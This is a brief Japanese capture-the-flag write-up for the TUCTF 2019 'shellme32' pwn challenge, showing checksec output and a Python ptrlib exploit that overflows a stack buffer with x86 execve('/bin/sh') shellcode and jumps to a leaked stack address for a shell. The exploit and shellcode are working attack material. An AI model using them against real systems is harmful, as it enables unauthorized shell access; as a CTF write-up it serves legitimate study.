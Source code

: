 # [pwn 462pts] shellme32 - TUCTF 2019
NXが無効です。
```
$ checksec -f shellme32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   73 Symbols     No       0               4       shellme32
```
バッファオーバーフローがあり、スタックのアドレスが渡されます。
シェルコードに飛ばすだけです。
```python
from ptrlib import *

#sock = Process("./shellme32")
sock = Socket("chal.tuctf.com", 30506)

sock.recvline()
addr_stack = int(sock.recvline(), 16)
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
shellcode += b'A' * (0x28 - len(shellcode))
shellcode += p32(addr_stack)
sock.sendlineafter("> ", shellcode)

sock.interactive()
```

# 感想
簡単ですね。